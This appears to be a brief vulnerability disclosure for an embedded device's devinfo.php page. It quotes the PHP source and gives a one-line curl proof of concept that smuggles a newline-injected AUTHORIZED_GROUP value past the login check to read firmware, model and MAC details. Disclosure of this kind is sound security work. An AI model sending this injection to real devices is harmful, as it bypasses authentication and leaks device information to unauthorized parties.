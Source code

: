 # Insecure Permissions
We can access the devinfo.php file to obtain the hardware information of the device over the user's permission. The attacker can judge the MAC address, firmware version and other information of the device through this vulnerability

code:
``` 
<?
if ($AUTHORIZED_GROUP < 0)
{
	echo "Authentication Fail. Please Login First!";
}
else
{
	echo "Firmware External Version: V".cut(fread("", "/etc/config/buildver"), "0", "\n")."\n";
	echo "Firmware Internal Version: ".cut(fread("", "/etc/config/buildno"), "0", "\n")."\n";
	echo "Model Name: ".query("/runtime/device/modelname")."\n";
	echo "Hardware Version: ".query("/runtime/devdata/hwrev")."\n";
	echo "WLAN Domain: ".query("/runtime/devdata/countrycode")."\n";
	$ver = cut(fread("", "/proc/version"), "0", "(")."\n";
	echo "Kernel: ".cut($ver, "2", " ")."\n";
	$lang = query("/runtime/device/langcode"); 
	if ($lang=="") $lang="en";
	echo "Language: ".$lang."\n";
	if (query("/device/session/captcha")=="1") $captcha="Enable"; 
	else $captcha="Disable";
	echo "Graphcal Authentication: ".$captcha."\n";
	echo "LAN MAC: ".query("/runtime/devdata/lanmac")."\n";
	echo "WAN MAC: ".query("/runtime/devdata/wanmac")."\n";
	echo "WLAN MAC: ".query("/runtime/devdata/wlanmac")."\n";	
}		
?>
```
POC:
```
curl http://[ip]:[port]/DevInfo.php -d "aaa=%0aAUTHORIZED_GROUP=1"
```
